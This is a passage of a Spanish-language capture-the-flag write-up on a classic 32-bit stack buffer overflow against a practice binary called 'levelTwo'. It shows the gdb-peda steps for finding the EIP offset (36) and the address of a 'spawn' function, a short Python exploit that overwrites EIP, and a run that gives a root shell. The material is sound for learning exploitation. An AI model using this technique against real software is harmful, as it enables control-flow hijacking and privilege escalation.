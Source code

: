```shell
0x61414145 in ?? ()
gdb-peda$ 
```

Bueno ahora tenemos que buscar el offset es un valor para determinar la posicion en la memoria que se va a sobrescribir para esto le vamos a pasar el `EIP` que es la direccion de memoria de la proxima instruccion a ejecutar el objetivo es manipular el valor del registro EIP para que apunte a una dirección de memoria controlada por el atacante

Y nos da como resultado 36

```shell
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
gdb-peda$
```

Ahora como vimos en el codigo hay una funcion spawn y necesitamos saber su direccion asi que vamos a eso 

```shell
gdb-peda$ info function ^spawn$
All functions matching regular expression "^spawn$":

Non-debugging symbols:
0x565561e9  spawn
gdb-peda$ 
```

Ahora ya tenemos la direccion

Como es 32 bytes y estamos en little endian tenemos que darle la vuleta ala direccion

```shell
0x565561e9      |    \x56\x55\x61\xe9    | \xe9\x61\x55\x56
```

Bueno ahora que tenemos ya todo hecho podemos proceder a crear el exploit para explotar en binario 

```python
#!/usr/bin/python2

offset = 36 # pattern_offset 0x61414145

null = b"A" * offset # vamos a pasarle eso para asta llegar al EIP

spawn = b"\xe9\x61\x55\x56" # Le pasamos la direccion para que el EIP apunte a ala funcion spawn 

print(null + spawn)
```

Ahora vamos a ejecutarlo

Y Logramos ejecutar comandos

```
❯ ./levelTwo $(python2 pwned2.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaUV
# whoami
root
# 
```
